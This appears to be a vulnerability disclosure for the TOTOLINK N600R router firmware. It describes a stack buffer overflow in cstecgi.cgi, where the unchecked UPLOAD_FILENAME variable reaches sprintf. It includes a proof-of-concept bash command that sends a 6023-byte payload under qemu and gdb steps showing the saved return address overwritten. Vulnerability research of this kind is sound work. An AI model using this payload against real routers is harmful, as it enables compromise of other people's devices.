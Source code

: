 # TOTOLINK_N600R_V4.3.0cu.7866_B20220506-stack overflow
## File information
TOTOLINK_N600R_V4.3.0cu.7866_B20220506.web
Unzipped cstecgi.cgi
Download address: https://totolink.tw/support_view/N600R

## stack overflow
![攻击点](https://i.miji.bid/2025/04/11/2ad138a4cf77b7797988f62bab06ad44.png)

At the binary file address 0x00423914 (in the main function), sprintf is called. Variables such as acstack_ have clear size limits in the context, but the content_ptr required for FileName is read from the environment variable UPLOAD_FILENAME. The function call here does not check UPLOAD_FILENAME, which poses a buffer overflow risk.
![获得FILENAME](https://i.miji.bid/2025/04/11/7fb8540479f24de054af4ca47587c9fc.png)


## Simulate running in qemu
```bash
PAYLOAD=$(python3 -c "print('a'*6023+'DOIT')")
sudo chroot ./ ./qemu-mips-static\
	-E QUERY_STRING="action=upload&\"abc\" : [ &2aaaa&3aaaaaaaa&4aaaaaaaa&5aaaaaa" \
	-E UPLOAD_FILENAME="$PAYLOAD"\
	-E CONTENT_LENGTH="123" -g 123 -L ./lib \
	./web_cste/cgi-bin/cstecgi.cgi  <  ./poc
```


```bash
gdb-multiarch  ./web_cste/cgi-bin/cstecgi.cgi
```
Set a breakpoint at the address after sprintf is executed. Found that the buffer overflow is successful.

![enter image description here](https://i.miji.bid/2025/04/11/ccafab023430897fd2c42575fcf67d54.md.png)

Set a breakpoint before returning to the code block and find that the ra saved from the stack has become "DOIT"

![enter image description here](https://i.miji.bid/2025/04/11/a2d7030217022468118fc352dba55973.png)

